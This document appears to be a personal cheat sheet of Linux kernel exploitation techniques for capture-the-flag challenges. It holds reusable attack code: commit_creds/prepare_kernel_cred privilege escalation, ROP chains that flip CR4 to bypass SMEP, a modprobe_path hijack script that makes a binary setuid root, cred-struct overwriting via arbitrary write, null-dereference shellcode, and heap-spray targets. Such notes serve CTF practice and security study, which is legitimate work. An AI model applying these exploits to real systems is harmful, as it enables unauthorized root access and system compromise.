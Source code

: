 # general setup
## decompress filesystem
cp ../core.cpio core.cpio.gz #  copy the gzip file into the folder and change the suffix 

gunzip ./core.cpio.gz 

cpio -idm < ./core.cpio
# if file system is already .gz with file type gzip
gzip -cd ../initramfs.cpio.gz | cpio -imd --quiet

#for a ext2/3/4 filesystem
mount it on the host while qemu is off, make changes, unmount then boot qemu.

mount -o loop,offset=offset /path/to/disk_image /mnt/mount_point

https://access.redhat.com/solutions/24029

# gencpio.sh
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/fs/gen_cpio.sh

# attach.sh
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/attach.sh

# compile.sh
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/fs/compile.sh

# cmd
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/cmd

# include
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/fs/exploit.c

# general tips
### setsid to 0 to get root->
to access /sys/module/name_of_module/sections/.text for address of .text section of module
/proc/kallsyms for all symbols.
change uid to 0 in /etc/passwd
## use cpu kvm64 to allow smep,smap
## Use extract-vmlinux script in linux-headers to extract vmlinux from bzImage
/usr/src/linux-headers-$(uname -r)/scripts/extract-vmlinux bzImage > vmlinux
## cat /sys/module/name_of_module/sections/.text->address of .text sectiion of loaded module.
## load debug info:add-symbol-file /path/to/module 0xd081d000 \  #  .text
 		-s .data 0xd08232c0 \
		-s .bss  0xd0823e20
## open the dev file created in /dev or /proc or /sys to interact with the kernel module.
## if you obtain major number with register_chrdev(), you need to manually make the device file.
## proc_create automatically creates the device file in /proc
char *args[]={"/bin/sh",NULL}; execve("/bin/sh",args,NULL) is needed to spqwn shell.
To define kernel functions, first create a typedef with: ret_type(typedefname)(args) and then define with function with typedefname addr.Example:
typedef unsigned long __attribute__((regparm(3)))(*commit_creds_func)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3)))(*prepare_kernel_cred_func)(unsigned long cred);
commit_creds_func commit_creds = (commit_creds_func) 0xffffffff8107ab70;
prepare_kernel_cred_func prepare_kernel_cred = (prepare_kernel_cred_func) 0xffffffff8107af00;
void privesc(){
	commit_creds(prepare_kernel_cred(0));
}
##code snippets
#save_state
unsigned long user_cs, user_ss, user_rflags;
unsigned long user_cs,user_ss,user_rflags,user_rsp;
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
	"movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_rsp)
        :
        : "memory");
}
#ropchains
#x64 and x86(change r to e)
unsinged long ropchain[]={poprdi,0x6f0,native_write_cr4,privesc,swapgs,iret,getshell,user_cs,user_rflags,user_rsp,user_ss};
stack layout while returning: r_rip;user_cs;user_rflags;user_rsp;user_ss;
#x86
        unsigned int ropchain[]={filler,filler,filler,filler,filler,filler,filler,filler,filler,filler,
                                POPEAX,DESIRED_CR4_VALUE,NATIVE_WRITE_CR4,
                                privesc,
                                POPECX,fakestack+0x2000,
                                POPEDX,get_shell,
                                SYSEXIT};

#leaks in kernel:
        system("dmesg > leak.txt");
        int lfd=Open("leak.txt",O_RDWR);
        lseek(lfd,-LEN,SEEK_END);
        char leaktxt[LEN];
        read(lfd,leaktxt,LEN);
        close(lfd);
        char *leaksbuf=strstr(leaktxt,"Appropriate String");
        if(leaksbuf==NULL){
                perror("flag ptr not found");
                exit(EXIT_FAILURE);
        }
        flagptr=strtoul(leaksbuf+n,NULL,16);
#create new thread:
        pthread_t t1;
        pthread_create(&t1,NULL,startfunc,&arg);
#wait for thread to terminate:
	pthread_join(t1,NULL);
#create new child process that behaves like a thread:
	pid_t pid=clone(startfunc,fakestack+0xf000,CLONE_VM|CLONE_FILES|SIGCHLD,&arg);
#wait for child process to terminate:
	wait(NULL);
#check rootme reentrant-code for race conditions example

void set_affinity(int which_cpu)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(which_cpu, &cpu_set);
    if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
    {
        perror("sched_setaffinity()");
        exit(EXIT_FAILURE);
    }
}
call it right after save_state();
# trigger mod_probe with: (before this overwrite modprobe_path with "/home/user/p")
#check SLUB off-by-1 for shell with modprobe_path hijack
void modprobe_trigger(){
        system("echo -ne '#!/bin/sh\n/bin/chown root:root /mnt/share/exploit\n/bin/chmod u+s /mnt/share/exploit\nchmod g+s /mnt/share/exploit'>/mnt/share/p")
        system("chmod +x /mnt/share/p");
        system("echo -ne '\\xff\\xff\\xff' > /mnt/share/trig");
        system("chmod +x /mnt/share/trig");
        system("/mnt/share/trig 2>/dev/null");
        system("/mnt/share/exploit");
        getchar();
}
at start of main:
        setuid(0);
        if(!getuid()){
                puts("[+] Here's your r00t shell!");
                system("/bin/sh");
                return 0;
        }


#overwrite current process creds with arw:
#1https://devcraft.io/2019/01/22/1118daysober-insomnihack-teaser-2019.html
#2root-me: SLUB off-by-one writeup
        uint64_t init_task = kernel_base_address + OFFSET_INIT_TASK;
        uint64_t task = 0;
        uint64_t ptask = init_task;
        while (task != init_task) {
                task = read64(ptask + OFFSET_TASKS) - OFFSET_TASKS;
                ptask = task;
                int pid = read64(task + OFFSET_PID);
                if (pid != getpid())
                        continue;
 
                puts("found current task!");
                long cred = read64(task + OFFSET_CRED);
 
                for (int i = 0; i < 4; i++)
                    write64(cred + i * 8, 0);
 
                break;
        }
#nullptr deference
char *addr=(char *)mmap(NULL,0x3000,PROT_EXEC|PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,0,0); 
#for x64:
memset(addr,0,0x3000);
addr[0]='\xff';
addr[1]='\x25';
*(unsigned long *)&addr[2]=0;
*(unsigned long *)&addr[6]=(unsigned long)&privesc;
#for x86:
char shellcode[]="\xFF\x25\x06\x00\x00\x00";
memcpy(mem,shellcode,6);
*(int *)(mem+6)=&privesc;
#check cr4 value by getting a kernel panic with eip=0x41414141 and then get the desired value accordingly
#kmalloc-32 spray:open("/proc/self/stat",O_RDONLY)

#instead of returing to user-space in ropchains, use raj's technique, check exploit.c for kstack from secconctf2020; (Basically chmod the binary after root privs ad then call msleep, in the mean time, run another thread that executes the binary.)
#kmalloc-1024 tty_struct open("/dev/ptmx")
#kmalloc-128 cred_struct fork()
